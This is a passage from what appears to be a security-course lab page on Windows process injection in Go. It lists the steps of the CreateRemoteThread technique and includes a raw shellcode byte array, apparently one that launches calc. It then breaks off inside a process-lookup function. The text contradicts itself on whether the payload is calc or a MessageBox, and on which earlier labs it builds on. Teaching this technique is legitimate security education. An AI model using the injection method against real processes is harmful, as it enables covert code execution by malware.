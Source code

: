 ```yaml
---
showTableOfContents: true
title: "Executing Code via CreateRemoteThread (Lab 10.3)"
type: "page"
---
```



## Goal
In the previous two labs of this module we successfully found and opened a target process (Lab 10.1) and then allocated, written to, and modified memory within it (Lab 10.2). The final piece of the standard WinAPI process injection puzzle is triggering the execution of our payload (shellcode) within that remote process context. As discussed in the preceding lesson, the `CreateRemoteThread` function is the standard way to achieve this.

Specifically, in this lab we will:
1.  Combine the code from Labs 10.1 and 10.2 to find a target process and get a handle.
2.  Allocate ReadWrite (RW) memory remotely using `VirtualAllocEx`.
3.  Write our `calc.exe` shellcode into the remote memory using `WriteProcessMemory`.
4.  Change the remote memory's protection to ReadExecute (RX) using `VirtualProtectEx`.
5.  Use `CreateRemoteThread` to start a new thread in the target process, with its starting address pointing to our shellcode buffer.
6.  Verify that the shellcode executes successfully in the target process.

## Code

*(Note: This code integrates logic from Labs 2.1 & 2.2 and adds the execution step. A simple MessageBox shellcode is used here for demonstration.)*

```go
//go:build windows
// +build windows

package main

import (
	"fmt"
	"log"
	"os"
	"strings"
	"unsafe"

	"github.com/zzl/go-win32api/v2/win32" 
	"golang.org/x/sys/windows"            
)

// Shellcode (remains the same)
var shellcode = []byte{
	0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63,
	0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
	0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
	0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
	0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,
	0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
	0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3,
}

// findProcessPID (remains the same)
func findProcessPID(targetName string) (uint32, error) {
	fmt.Printf("[*] Searching for process: %s\n", targetName)

	handle, err := windows.CreateToolhelp32Snapshot(windows.TH32CS_SNAPPROCESS, 0)
	if err != nil {
```